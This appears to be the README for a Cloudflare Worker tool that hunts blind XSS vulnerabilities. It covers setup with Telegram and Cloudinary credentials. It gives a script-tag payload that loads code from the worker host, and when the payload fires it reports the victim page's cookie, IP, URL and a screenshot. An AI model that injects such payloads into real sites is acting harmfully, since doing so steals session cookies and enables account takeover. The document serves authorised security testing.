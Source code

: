 Blind XSS Hunter - Cloudflare Worker
====================================

This Cloudflare Worker script is designed to automate the process of hunting for Blind XSS vulnerabilities in web applications. It leverages the Cloudflare Workers environment to execute JavaScript code that captures screenshots of potentially vulnerable pages and notifies the user via Telegram when a Blind XSS is executed.

Features
--------

*   Automatically captures screenshots of vulnerable pages
*   Sends notifications via Telegram with detailed information about the executed Blind XSS
*   Utilizes Cloudinary for storing screenshots
*   CORS support for client-side JavaScript code execution
*   Lightweight and easy to deploy

Prerequisites
-------------

Before using this script, you need to have the following:

*   A Cloudflare account with Workers enabled
*   A Telegram bot and its API token
*   A Cloudinary account with API key and secret

Installation
------------

1.  Create a new Cloudflare Worker in your Cloudflare account.
    
2.  Copy the contents of the `index.js` file in this repository and paste it into the Cloudflare Worker script editor.
    
3.  Replace the placeholder values for the following constants with your own credentials:
    
    *   `TELEGRAM_TOKEN`: Your Telegram bot API token
    *   `CLOUDINARY_TOKEN`: Your Cloudinary API token (Base64 encoded `api_key:api_secret`)
    *   `CLOUDINARY_API_KEY`: Your Cloudinary API key
    *   `UPLOAD_PRESET`: Your Cloudinary upload preset
    *   `CLOUD_NAME`: Your Cloudinary cloud name
    *   `CHAT_ID`: Your Telegram chat ID for receiving notifications
    *   `CLOUDFLARE_ROUTE`: Your Cloudflare Worker route URL
4.  Save and deploy your Cloudflare Worker.
    

Usage
-----

To use this Cloudflare Worker for hunting Blind XSS, simply include the generated JavaScript in your testing payloads or on the target website.

`<script src="https://your-worker-url.example.com?on=your-target"></script>`

Replace `https://your-worker-url.example.com` with your actual Cloudflare Worker URL and `your-target` with the target website or parameter you are testing.

When a Blind XSS is executed, you will receive a notification in the specified Telegram chat with detailed information about the execution, including the target, IP address, user agent, URL, cookie, and a screenshot of the page.

Disclaimer
----------

This tool is intended for ethical security testing purposes only. Do not use it to exploit vulnerabilities without the consent of the website owner. The developers of this tool are not responsible for any misuse or malicious activities.

License
-------

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for more details.
